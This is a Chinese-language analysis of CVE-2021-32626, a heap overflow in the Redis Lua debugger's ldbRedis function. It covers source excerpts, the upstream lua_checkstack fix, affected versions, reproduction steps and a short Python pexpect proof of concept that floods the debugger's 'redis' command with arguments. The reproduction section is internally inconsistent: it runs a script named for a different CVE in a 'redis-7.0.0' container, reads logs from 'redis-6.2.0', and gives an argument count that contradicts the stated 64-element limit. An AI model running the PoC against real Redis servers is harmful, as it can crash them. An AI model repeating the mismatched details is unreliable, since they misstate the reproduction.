




# CVE-2021-32626 CWE-787&122 Redis 缓冲区溢出

## 漏洞背景

- **Redis**：一个key-value 存储系统，是跨平台的非关系型数据库。开源的内存数据库，提供了一个高性能的键值（key-value）存储系统，常用于缓存、消息队列、会话存储等应用场景。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。
- CWE-787（Out-of-bounds Write 越界写入）：程序向预期边界之外的内存位置写入数据，可能破坏关键控制信息或执行任意代码
- CWE-122（Heap-based Buffer Overflow 基于堆的缓冲区溢出	）：在堆上分配缓冲区后，因未校验长度即写入超量数据，导致覆盖堆管理元数据或相邻对象，可被利用实现任意代码执行或拒绝服务。

## 漏洞原理

Redis 将 Lua 嵌入到服务端执行脚本时，对 Lua 堆栈或内部边界的检查不充分，攻击者可以通过精心构造的 Lua 脚本触发对堆上 Lua 堆栈的越界写入，导致堆损坏。

## 漏洞定位

分析 Redis-6.2.0 源码：

在 src/scripting.c 文件，以`ldbRedis`为例，第 2541 行`ldbRedis`函数

第 2548 行，`lua_pushlstring`将所有参数压栈，导致了堆溢出。

```c
/* Implement the debugger "redis" command. We use a trick in order to make
 * the implementation very simple: we just call the Lua redis.call() command
 * implementation, with ldb.step enabled, so as a side effect the Redis command
 * and its reply are logged. */
void ldbRedis(lua_State *lua, sds *argv, int argc) {
    int j, saved_rc = server.lua_replicate_commands;

    lua_getglobal(lua,"redis");
    lua_pushstring(lua,"call");
    lua_gettable(lua,-2);       /* Stack: redis, redis.call */
    for (j = 1; j < argc; j++)
        // ***** 2548 行 ***** ⚠️溢出点 ******
        lua_pushlstring(lua,argv[j],sdslen(argv[j]));
    ldb.step = 1;               /* Force redis.call() to log. */
    server.lua_replicate_commands = 1;
    lua_pcall(lua,argc-1,1,0);  /* Stack: redis, result */
    ldb.step = 0;               /* Disable logging. */
    server.lua_replicate_commands = saved_rc;
    lua_pop(lua,2);             /* Discard the result and clean the stack. */
}
```

追踪`ldbRedis`的调用链。在第 2597 行`ldbRepl`函数中，第 2677 行调用`ldbRedis`函数，可以看到`ldbRedis`不是`redis-cli`的一个功能，而是作为`ldb`的一个命令实现的。在调用`redis`命令时传递超长参数即可触发漏洞。

```c
// 2597 行
int ldbRepl(lua_State *lua) {
    sds *argv;
    int argc;
 
    /* We continue processing commands until a command that should return
     * to the Lua interpreter is found. */
    while(1) {
 
        // ...
         
        /* Execute the command. */
        if (!strcasecmp(argv[0],"h") || !strcasecmp(argv[0],"help")) {
            // ...
        } else if (!strcasecmp(argv[0],"s") || !strcasecmp(argv[0],"step") ||
                   !strcasecmp(argv[0],"n") || !strcasecmp(argv[0],"next")) {
            ldb.step = 1;
            break;
 
        // ...
 
        } else if (argc > 1 &&
                   (!strcasecmp(argv[0],"r") || !strcasecmp(argv[0],"redis"))) {
            // ***** 2677 行 *****
            ldbRedis(lua,argv,argc);
            ldbSendLogs();
        // ...
    }
    // ...
}
```

## 漏洞修复


升级到 Redis 5.0.14、6.0.16、6.2.6，或包含提交 `0d2d5f064198da44a85d48001a4e80859e0e2860` 的更高版本。`ldbRedis()` 现在会在压入 Redis 表、函数及用户参数之前调用 `lua_checkstack(lua, argc + 1)`；如果 Lua 栈无法扩展，则停止处理。

在升级之前， 禁用 Lua 对未信任的用户进行调试并拒绝 `EVAL`/`EVALSHA` 通过ACLs或命令重命名。 保留 Redis 启用认证的私人网络。
添加堆栈检查前 `ldbRedis` 函数逻辑

```diff
src/scripting.c
@@ -2591,2 +2591,13 @@
void ldbRedis(lua_State *lua, sds *argv, int argc) {
    int j, saved_rc = server.lua_replicate_commands;
 
+    if (!lua_checkstack(lua, argc + 1)) {
+        /* Increase the Lua stack if needed to make sure there is enough room
+         * to push 'argc + 1' elements to the stack. On failure, return error.
+         * Notice that we need, in worst case, 'argc + 1' elements because we push all the arguments
+         * given by the user (without the first argument) and we also push the 'redis' global table and
+         * 'redis.call' function so:
+         * (1 (redis table)) + (1 (redis.call function)) + (argc - 1 (all arguments without the first)) = argc + 1*/
+        ldbLogRedisReply("max lua stack reached");
+        return;
+    }
+
    lua_getglobal(lua,"redis");
```

## 影响范围


Redis：

- 2.6 至 5.0.13
- 6.0.0 至 6.0.15
- 6.2.0 至 6.2.5

## 环境搭建

启动 Docker 环境，Redis 版本为 6.2.0

```txt
NIST:NVD    Base Score:8.8 HIGH    Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
CNA:GitHub, Inc.    Base Score: 7.5 HIGH    Vector:CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:redis:redis:6.2.0:*:*:*:*:*:*:*
```



## 漏洞复现

1. 进入容器命令行，执行 PoC 文件

   ```bash
   docker exec -it redis-7.0.0 python CVE-2022-31144-PoC.py
   ```

   

2. 之后按回车，再输入 exit 退出

   

3. 查看容器日志，可以看到在进入 Lua 调试模式执行命令后， ASan 报告发生了缓冲区溢出

   ```bash
   docker logs redis-6.2.0
   ```

   

## PoC分析

```python
import pexpect
 
cli = "redis-cli --ldb --eval poc.lua"

proc = pexpect.spawn(cli)
 
proc.expect("debugger>")
 
cmd = "redis"
arg = " 1"
num = 40
for i in range(num):
    cmd += arg
 
proc.sendline(cmd)
 
proc.interact()
```

使用 Redis Lua 调试器，一次性给内置命令 redis 塞 41 个参数。

 Lua 调试器里 redis 命令的 argv 数组固定大小为 64，而长度>64 时就会 栈溢出。

## 参考链接


[NVD - CVE-2021-32626](https://nvd.nist.gov/vuln/detail/CVE-2021-32626)

[Fix invalid memory write on lua stack overflow (CVE-2021-32626) by MeirShpilraien · Pull Request #9591 · redis/redis](https://github.com/redis/redis/pull/9591/commits/0d2d5f064198da44a85d48001a4e80859e0e2860#diff-a436586224a8b4ca94014261f6d898439bf90cdc7347a10b1066928ed9b2c89e)

[[Original] Redis Vulnerability Analysis, Lua Script Section - Binary Vulnerabilities - Kanxue Forum - Security Community | Nonprofit Technical Exchange Community](https://bbs.kanxue.com/thread-286459.htm#msg_header_h1_3)
